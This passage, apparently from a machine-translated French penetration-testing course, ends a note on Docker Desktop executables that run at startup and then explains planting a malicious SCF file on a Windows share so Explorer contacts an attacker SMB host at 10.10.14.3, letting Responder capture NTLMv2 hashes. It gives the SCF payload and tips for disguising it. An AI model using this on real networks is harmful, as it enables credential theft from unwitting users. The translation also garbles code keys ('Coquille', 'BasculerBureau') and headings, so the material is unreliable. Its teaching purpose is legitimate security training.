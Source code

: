 Tout exécutable placé dans ce répertoire s'exécute lorsque a) l'application Docker démarre et b) lorsqu'un utilisateur s'authentifie à l'aide de la commande `docker login`. Alors qu'unun peu plus ancien, il n'est pas impossible de rencontrer le poste de travail d'un développeur exécutant cette version de Docker Desktop, c'est pourquoi il est toujours important d'énumérer soigneusement les logiciels installés. Bien que cette faille particulière ne nous garantisse pas un accès élevé (puisqu'elle repose sur un redémarrage du service ou une action de l'utilisateur), nous pourrions planter notre exécutable lors d'une évaluation à long terme et vérifier périodiquement s'il fonctionne et si nos privilèges sont élevés.

* * * * *

SCF sur un partage de fichiers
-------------------

Un fichier de commande Shell (SCF) est utilisé par l'Explorateur Windows pour déplacer les répertoires vers le haut et vers le bas, afficher le bureau, etc. Un fichier SCF peut être manipulé pour que l'emplacement du fichier d'icône pointe vers un chemin UNC spécifique et que l'Explorateur Windows démarre une SMB session lors de l'accès au dossier où réside le fichier .scf. Si nous remplaçons IconFile par un serveur SMB que nous contrôlons et exécutons un outil tel que [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson /Inveigh), ou [InveighZero](https://github.com/Kevin-Robertson/InveighZero), nous pouvons souvent capturer les hachages de mot de passe NTLMv2 pour tous les utilisateurs qui parcourent le partage. Cela peut être particulièrement utile si nous obtenons un accès en écriture à un partage de fichiers qui semble être très utilisé ou même à un répertoire sur le poste de travail d'un utilisateur. Nous pouvons être en mesure de capturer le hachage du mot de passe d'un utilisateur et d'utiliser le mot de passe en clair pour augmenter les privilèges sur l'hôte cible, au sein du domaine, ou pour accéder/obtenir un accès à d'autres ressources.

#### Fichier SCF malveillant

Dans cet exemple, créons le fichier suivant et nommons-le quelque chose comme `@Inventory.scf` (similaire à un autre fichier dans le répertoire, afin qu'il ne semble pas déplacé). Nous mettons un `@` au début du nom de fichier pour qu'il apparaisse en haut du répertoire afin de garantir qu'il est vu et exécuté par l'Explorateur Windows dès que l'utilisateur accède au partage. Ici, nous mettons notre adresse IP `tun0` et tout faux nom de partage et nom de fichier .ico.

Fichier SCF malveillant

```
[Coquille]
Commande=2
IconFile=\\10.10.14.3\share\legit.ico
[Barre des tâches]
Commande=BasculerBureau

```

#### Début du répondeur

Ensuite, démarrez Responder sur notre boîte d'attaque et attendez que l'utilisateur parcoure le partage. Si tout se passe comme prévu, nous verrons le hachage du mot de passe NTLMV2 de l'utilisateur dans notre console et tenterons de le déchiffrer hors ligne.

Premier répondant
